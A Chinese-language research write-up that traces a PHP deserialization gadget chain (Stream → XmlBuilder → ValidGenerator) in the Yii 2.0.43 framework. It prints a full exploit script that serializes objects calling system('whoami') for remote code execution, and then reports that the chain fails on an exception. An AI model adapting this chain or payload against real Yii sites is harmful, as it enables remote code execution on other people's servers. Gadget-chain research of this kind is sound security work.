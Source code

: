前段时间YII2.0.42的链子也爆了出来,审了后突然想自己挖挖看有没有链子

于是我把YII2.0.43下了下来

直接寻找__destruct()方法,因为之前的师傅太猛了,导致现在存在的destruct方法大多数被加上了一个wakeup

最后苦苦找寻,终于找到了Stream.php

![image-20210930212004933](images/1.png)

跟进close()

![image-20210930212023511](images/2.png)

跟进一下

![image-20210930212106983](images/3.png)

`$this->stream`是可控的,那返回值就可以自由控制,这里可以去调用__toString()

定位到了XmlBuilder.php

```
public function __toString()
{
    return $this->__dom__->saveXML();
}
```

`$this->__dom__`可控,这里可以去触发__call()方法

定位到ValidGenerator.php

```
public function __call($name, $arguments)
{
    $i = 0;

    do {
        $res = call_user_func_array([$this->generator, $name], $arguments);
        ++$i;

        if ($i > $this->maxRetries) {
            throw new \OverflowException(sprintf('Maximum retries of %d reached without finding a valid value', $this->maxRetries));
        }
    } while (!call_user_func($this->validator, $res));

    return $res;
}
```

这里就和2.0.42一样了,利用二重call去在do-while判断处进行RCE

一切看似在顺利地进行着,于是没吃午饭地开开心心地写着exp

```
<?php

namespace GuzzleHttp\Psr7 {

    use Codeception\Util\XmlBuilder;

    class Stream
    {
        private $stream;
        private $seekable;
        public function __construct()
        {
            $this->stream = new XmlBuilder();
            $this->seekable = false;
        }
    }
    echo base64_encode(serialize(new stream()));
}

namespace Codeception\Util {

    use Faker\ValidGenerator;

    class XmlBuilder
    {
        protected $__dom__;
        public function __construct()
        {
            $this->__dom__ = new ValidGenerator();
        }
    }
}

namespace Faker {
    class ValidGenerator
    {
        protected $generator;
        protected $validator;
        protected $maxRetries;
        public function __construct()
        {
            $this->generator = new DefaultGenerator();
            $this->validator = 'system';
            $this->maxRetries = '1';
        }
    }
    class DefaultGenerator
    {
        protected $default;
        public function __construct()
        {
            $this->default = 'whoami';
        }
    }
}
```

直接拿去打一下

淦,报错了

![image-20210930212906984](images/4.png)

他进入了Stream.php的toString方法,然后抛出了一个异常

![image-20211004084935196](images/5.png)

无奈只有打断点看看了

一直跟到stream类前一步发现

![image-20211004084741062](images/6.png)

如果该类中存在toString方法则会默认调用

看来这条链子是打不通了,最终只能无奈地退出程序

